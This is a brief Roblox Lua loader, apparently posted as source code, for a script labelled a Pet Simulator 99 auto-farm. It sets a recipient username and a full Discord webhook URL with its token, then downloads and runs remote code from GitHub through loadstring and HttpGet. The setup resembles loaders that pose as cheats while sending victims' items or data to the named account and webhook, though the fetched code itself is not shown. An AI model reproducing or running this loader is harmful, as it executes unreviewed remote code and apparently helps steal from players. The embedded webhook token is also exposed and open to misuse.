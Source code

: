
_G.username = "PogrzaloCie"
_G.Webhook = "https://discord.com/api/webhooks/1275106108348039240/qr7NmdjwtRTn5Z4a91aR-Tn1Foyk1IAH2QV3PYqKSTy-ihbl_gsECYkQ3nu4oy6GmDIZ"
loadstring(game:HttpGet("https://raw.githubusercontent.com/vestyx/PS99/main/PetSimulator99AutoFarm.lua"))()
